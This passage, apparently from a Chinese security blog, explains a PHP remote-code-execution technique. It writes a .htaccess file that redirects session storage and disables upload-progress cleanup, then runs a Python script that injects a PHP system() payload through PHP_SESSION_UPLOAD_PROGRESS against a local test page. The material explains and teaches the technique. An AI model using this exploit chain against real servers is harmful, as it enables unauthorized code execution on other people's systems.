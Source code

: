 > 
四、其他字符限制<br/> 若过滤了&lt;、数字、:等，此时便不能使用php://filter或者UTF编码的方式绕过了；可尝试利用.htaccess设置包含指定的文件；例如对于session文件，可通过包含上传文件产生的临时session进行RCE<br/> 查看配置文件，发现大部分session相关的配置都是可以通过.htaccess修改的<br/> 那么我们可以在不知道session存储路径的情况下，通过session.save_path指定存储路径，并且可以将session.upload_progress.cleanup设置为off，这样便可无需条件竞争来将代码写到session文件中，从而包含rce


```
.htaccess编写
php_value auto_append_file "/tmp/sess_gtfly"
php_value session.save_path "/tmp"
php_flag session.upload_progress.cleanup off

然后运行

import requests
url='http://127.0.0.1/test.php'
headers={
    "Cookie":'PHPSESSID=gtfly'
}
files={
    "upload":''
}
data={
    "PHP_SESSION_UPLOAD_PROGRESS": '''&lt;?php echo system('whoami'); ?&gt;'''
     }
r = requests.session()
r.post(url,files=files,headers=headers,data=data)
t = r.get('http://127.0.0.1/test.php',headers=headers)
print(t.text)

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210508194235388.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210508194535684.png#pic_center"/>
